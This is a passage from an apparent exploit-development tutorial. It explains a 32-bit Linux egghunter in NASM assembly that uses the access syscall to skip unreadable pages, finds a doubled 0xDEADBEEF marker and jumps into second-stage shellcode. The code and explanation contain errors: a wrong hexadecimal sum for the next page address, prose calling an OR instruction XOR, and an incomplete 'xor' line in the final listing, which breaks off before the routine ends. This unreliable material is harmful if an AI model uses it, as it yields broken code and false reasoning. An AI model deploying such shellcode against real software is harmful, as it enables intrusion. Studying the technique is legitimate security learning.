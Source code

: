 If we get an `EFAULT`, we need to move to the next memory page (4096 bytes ahead), otherwise the code would run a lot more slowly since we know all 4096 bytes in the current memory page with also generate an `EFAULT`. To optimize the process, the current address is XORed with `4095` so the next loop iteration that increases the `$edx` register by 1 will end up in the next memory page.

For example, if we just got a fault reading address `0xb7e19000`, XORing the address with `0xfff` results in `0xb7e19fff`. Then `0xb7e19fff` + 1 = `0xb7e18000` (start of the next page).

```nasm
    next_page:
    or dx, 0xfff            ; align page 

    next_byte:
    inc edx                 ; set address to beginning of the memory page
```

If there's no fault resulting from `access`, we can safely looks through the page one byte at a time. We can use the `cmp` instruction using the current `$edx` value against the `$esi` register that contains the egg value. We also need to repeat the comparison a 2nd time to avoid matching the egg value from the code itself as explained earlier. If the egg is matched, the memory address following the 2nd copy of the egg is copied into `$esi` and the code jumps to it, executing the 2nd shellcode located there.

```nasm
    ; search for the egg
    cmp [edx], esi
    jnz next_byte

    ; search again for 2nd copy of the egg (avoid matching code itself)
    cmp [edx+4], esi
    jnz next_byte

    ; egg found, jump to shellcode
    lea esi, [edx + 8]
    jmp esi
```

The final version of the egghunter code is shown below:
```nasm
global _start

section .text

_start:

    ; Zero registers
    xor eax, eax
    xor 
    xor ecx, ecx            ; ecx = 0
    mul ecx                 ; eax = 0, edx = 0
    mov esi, 0xdeadbeef     ; our egg: 0xDEADBEEF

    next_page:
    or dx, 0xfff            ; align page 

    next_byte:
    inc edx                 ; set address to beginning of the memory page

    ; check if we can read the memory
    xor eax, eax
    mov al, 0x21            ; sys_access
    lea ebx, [edx+8]        ; const char __user *filename
    int 0x80                ; sys_access
    cmp al, 0xf2            ; Check if we have an EFAULT
    jz next_page            ; jump to next page if a fault is raised

    ; search for the egg
```